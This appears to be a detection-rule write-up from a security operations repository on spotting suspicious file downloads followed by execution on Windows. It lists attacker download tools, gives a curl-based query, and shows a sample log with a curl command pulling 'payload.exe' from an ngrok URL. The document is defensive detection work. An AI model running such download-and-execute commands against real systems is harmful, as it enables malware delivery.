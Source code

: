 # Suspicious File Download & Execution

##  Scenario Description
  An attacker or malicious script downloads a file from the internet (often via PowerShell, curl, or certutil) and then executes it on a Windows host. This technique is widely used in malware delivery, phishing payloads, and initial access operations.

**Common tools/methods:**
- `Invoke-WebRequest` or `Invoke-Expression` in PowerShell
- `certutil.exe` used to fetch remote files
- `bitsadmin.exe` or `curl.exe` for stealthy transfers
- Execution of the downloaded payload (e.g., EXE, DLL, or script)
## Objective
  Detect suspicious file downloads from remote sources followed by execution of the downloaded file. The goal is to identify early-stage malware delivery and initial execution, helping to stop attacks in the initial phases of the kill chain.

## Detection Logic / Query

```sh
process.name: "curl.exe" and 
file.extension: ("exe" or "dll" or "ps1" or "bat" or "vbs" or "zip")
```

## Sample Alert Screenshot

![suspicious file download](../../screenshots/suspicious.png)

## Logs or Sample Event
```powershell
"May 31, 2025 @ 14:11:25.639","curl  https://8f23-2401-4900-4deb-7fc2-3703-39b4-73d6-579b.ngrok-free.app/NORTHERN_POSSIBILITY.exe -o payload.exe","curl.exe","-"
```
## Detection Status
